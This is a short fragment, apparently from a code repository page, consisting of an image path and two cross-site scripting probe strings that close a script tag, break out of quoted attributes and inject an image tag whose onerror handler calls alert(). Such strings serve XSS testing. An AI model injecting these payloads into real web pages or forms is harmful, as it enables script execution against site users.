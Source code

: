 # </script>'"><img src=x onerror=alert();>
</script>'"><img src=/../../../../fluidicon.png onerror=alert();>
